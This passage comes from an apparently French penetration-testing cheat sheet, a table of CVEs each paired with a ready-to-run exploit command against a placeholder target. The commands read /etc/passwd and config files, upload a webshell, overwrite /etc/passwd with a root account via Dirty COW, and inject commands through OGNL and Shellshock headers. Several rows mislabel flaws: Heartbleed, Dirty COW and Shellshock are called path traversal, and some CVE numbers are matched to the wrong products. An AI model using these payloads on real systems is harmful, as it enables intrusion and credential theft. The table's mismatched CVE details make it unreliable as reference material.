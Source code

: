 | CVE-2020-5410 | Spring Cloud Config < 2.2.3 | `curl "http://cible:8888/configserver/..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"` | Path traversal via double-encoding permettant la lecture de fichiers arbitraires. | [https://github.com/zhzyker/exphub/tree/master/springcloud/Spring-Cloud-Config-path-traversal](https://github.com/zhzyker/exphub/tree/master/springcloud/Spring-Cloud-Config-path-traversal) |
| CVE-2020-5811 | Umbraco CMS <= 8.9.1 | `python exploit.py --shell webshell.aspx --upload-path "~/../scripts"`<br>(voir PoC pour génération du package et upload du shell) | Path traversal authentifié permettant l’écriture de fichiers arbitraires (webshell) sur le serveur. | [https://www.exploit-db.com/exploits/50241](https://www.exploit-db.com/exploits/50241) [https://www.tenable.com/security/research/tra-2020-59](https://www.tenable.com/security/research/tra-2020-59) |
| CVE-2019-12276 | GrandNode <= 4.40 | `python gn.py -u http://cible:5001 -f "/etc/passwd"`<br>`python gn.py -u http://cible:5001 -f "../../../web.config"` | Path traversal dans GrandNode permettant la lecture de fichiers arbitraires, y compris des fichiers système et de configuration. | [https://www.exploit-db.com/exploits/47027](https://www.exploit-db.com/exploits/47027) |
| CVE-2019-11510 | Pulse Secure VPN | `curl "https://cible/dana-na/../dana/html5acc/guacamole/../../../../../../../../../../etc/passwd"` | Path traversal permettant la lecture de fichiers arbitraires sur le VPN, menant à la compromission d’identifiants. | [https://github.com/projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510) |
| CVE-2019-8903 | Node.js / total.js < 3.2.2 | `curl "http://cible:8000/public/../../../../../../etc/passwd"` | Path traversal via le module total.js permettant la lecture de fichiers arbitraires hors du dossier public. | [https://github.com/sv3nbeast/CVE-2019-8903](https://github.com/sv3nbeast/CVE-2019-8903) |
| CVE-2018-13379 | Fortinet FortiOS SSL VPN | `curl "https://cible/remote/fgt_lang?lang=/../../../..//////////etc/passwd"` | Path traversal permettant la lecture de fichiers système, dont les identifiants VPN. | [https://github.com/sgnls/exploit-CVE-2018-13379](https://github.com/sgnls/exploit-CVE-2018-13379) |
| CVE-2018-1000525 | Python / Tornado < 5.0.2 | `curl "http://cible/static/../../../../../../etc/passwd"` | Path traversal dans Tornado permettant la lecture de fichiers arbitraires sur le serveur. | [https://github.com/vulhub/vulhub/tree/master/tornado/CVE-2018-1000525](https://github.com/vulhub/vulhub/tree/master/tornado/CVE-2018-1000525) |
| CVE-2018-9206 | ThinkPHP 5.x | `curl "http://cible/?s=../../../../../../../../../../etc/passwd"` | Path traversal dans ThinkPHP permettant la lecture de fichiers arbitraires. | [https://github.com/vulhub/vulhub/tree/master/thinkphp/CVE-2018-9206](https://github.com/vulhub/vulhub/tree/master/thinkphp/CVE-2018-9206) |
| CVE-2018-7600 | Drupal < 7.58, 8.x < 8.3.9 | `curl "http://cible/?q=../../../../../../../../etc/passwd"` | Path traversal dans Drupal permettant la lecture de fichiers arbitraires. | [https://github.com/a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600) |
| CVE-2017-5638 | Apache Struts2 < 2.3.32, < 2.5.10.1 | `curl -X POST "http://cible/struts2-showcase/index.action" -H "Content-Type: %{(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).addHeader('X-Cmd', 'cat /etc/passwd')}"` | Path traversal et RCE via injection OGNL dans Struts2. | [https://github.com/mazen160/struts-pwn_CVE-2017-5638](https://github.com/mazen160/struts-pwn_CVE-2017-5638) |
| CVE-2016-10033 | PHP / PHPMailer < 5.2.18 | `curl -F "email=attacker@example.com" -F "name=../../../../../../../../etc/passwd" http://cible/contact.php` | Path traversal dans PHPMailer permettant la lecture de fichiers arbitraires. | [https://github.com/opsxcq/exploit-CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033) |
| CVE-2016-9244 | Cisco Prime Infrastructure < 3.1.0.0.132 | `curl "https://cible/webacs/../../../../../../etc/passwd"` | Path traversal dans Cisco Prime Infrastructure permettant la lecture de fichiers système. | [https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/cisco_prime_traversal.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/cisco_prime_traversal.rb) |
| CVE-2016-5195 | Linux Kernel ("Dirty COW") | `./dirtyc0w /etc/passwd "attacker::0:0:root:/root:/bin/bash"` | Path traversal et élévation de privilèges via la faille Dirty COW. | [https://github.com/dirtycow/dirtycow.github.io](https://github.com/dirtycow/dirtycow.github.io) |
| CVE-2015-7755 | F5 BIG-IP | `curl "https://cible/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=../../../../../../etc/passwd"` | Path traversal dans F5 BIG-IP permettant la lecture de fichiers arbitraires. | [https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/f5_bigip_tmui_traversal.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/f5_bigip_tmui_traversal.rb) |
| CVE-2014-6271 | Bash ("Shellshock") | `curl -H 'User-Agent: () { :;}; echo; /bin/cat /etc/passwd' http://cible/cgi-bin/test.sh` | Path traversal et RCE via injection dans Bash CGI. | [https://github.com/hannob/bashcheck](https://github.com/hannob/bashcheck) |
| CVE-2014-0160 | OpenSSL ("Heartbleed") | `python heartbleed.py cible.com` | Path traversal indirect via fuite de mémoire, permettant la lecture de données sensibles. | [https://github.com/mpgn/heartbleed-PoC](https://github.com/mpgn/heartbleed-PoC) |
| CVE-2013-2028 | Nginx < 1.4.1 | `curl "http://cible/../../../../../../etc/passwd"` | Path traversal dans Nginx permettant la lecture de fichiers arbitraires. | [https://github.com/vulhub/vulhub/tree/master/nginx/CVE-2013-2028](https://github.com/vulhub/vulhub/tree/master/nginx/CVE-2013-2028) |